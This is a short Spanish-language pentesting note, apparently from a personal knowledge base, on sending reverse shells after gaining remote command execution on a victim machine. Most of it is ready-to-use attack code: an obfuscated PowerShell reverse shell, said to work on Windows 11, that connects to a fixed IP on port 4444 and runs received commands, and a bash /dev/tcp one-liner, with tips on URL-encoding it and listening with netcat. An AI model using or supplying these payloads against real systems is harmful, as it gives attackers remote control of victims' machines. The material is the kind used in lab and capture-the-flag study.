 
-------------

#vulnerabilidad #shell #explotacion

---------
Este tipo de Shell suele devolverse durante la ejecución remota de comandos en la máquina víctima.

Payload ofuscado a través de **POWERSHELL**  que funciona actualmente en windows 11

```bash
 $S = "192.168.20.16"; $P = 4444; $T = [Net.Sockets.TCPClient]; $C = New-Object $T($S, $P); $N = $C.GetStream(); $R = [IO.StreamReader]; $W = [IO.StreamWriter]; $B = New-Object "System.Byte[]" 1024; $O = New-Object $R($N); $A = New-Object $W($N); $A.AutoFlush = $true; while($C.Connected){while($N.DataAvailable){$D = $N.Read($B, 0, $B.Length); $F = ([Text.Encoding]::UTF8).GetString($B, 0, $D - 1); if($C.Connected -and $F.Length -gt 1){$X=try{Invoke-Expression($F) 2>&1}catch{$_.Exception.Message};$A.Write("$X`n");}}}$C.Close();$N.Close();$O.Close();$A.Close();
```

![[Pasted image 20241014021812.png]]


---

### Mejores Comandos a la hora del envió de una Reverse Shell


Inicialmente cuando tenemos acceso a una ejecución remota de comandos [[Log Poisoning (LFI a un RCE)]]  necesitamos enviarnos una reverse shell para poder operar bajo consola, para esto el mejor comando de reverse shell es el siguiente, teniendo en cuenta que si lo tenemos que poner en una URL necesitamos hacerle un [[URL Encode]]:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.18/4444 0>&1'
```

- Obviamente teniendo en cuenta que debemos estar en escucha en el otro lado con listeners como por ejemplo [[NetCat]]

Una vez ya tengamos una Shell interactiva, podremos realizar el [[5. Tratamiento de la tty]] 

